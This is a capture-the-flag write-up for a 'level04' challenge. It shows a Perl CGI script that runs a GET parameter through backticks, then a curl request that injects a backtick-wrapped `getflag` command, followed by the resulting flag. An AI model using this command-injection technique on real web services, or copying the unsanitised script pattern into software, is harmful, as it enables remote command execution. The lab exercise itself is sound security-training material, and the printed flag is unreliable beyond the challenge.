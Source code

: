## level04
1. We are given Perl script `level04.pl`, that contains
``` Perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
2. `localhost:4747` line and [description](https://www.internet-technologies.ru/articles/cgi-na-perl-pervye-shagi.html) of CGI scripts in internet hints that this script is working with `Get` web requests on port 4747.
3. For sending requests on port, [`curl` command](https://zen.yandex.ru/media/mcs/10-komand-curl-kotorye-vam-sleduet-znat-5f8de17ab5e4d5370ed5e9d9) will be good
4. Request will look like this (script receives 1 input parameter - x)
``` Bash
curl localhost:4747/level04.pl?x="any_text"
```
5. As an output we get the same input parameter that was passed, and script using echo to print it. `echo` can execute commands if they passed in backticks: \` \`. So let's exploit it!
6. Pass `getflag` as parameter with protected backticks
``` Bash
curl -v localhost:4747/level04.pl?x=\`getflag\`
```
7. Execution of request results to level05 flag: **ne2searoevaevoem4ov4ar8ap**

### [< PREVIOUS LEVEL](../../level03/Resources/stages.md) | [NEXT LEVEL >](../../level05/Resources/stages.md)
### [MAIN MENU](../../README.md)
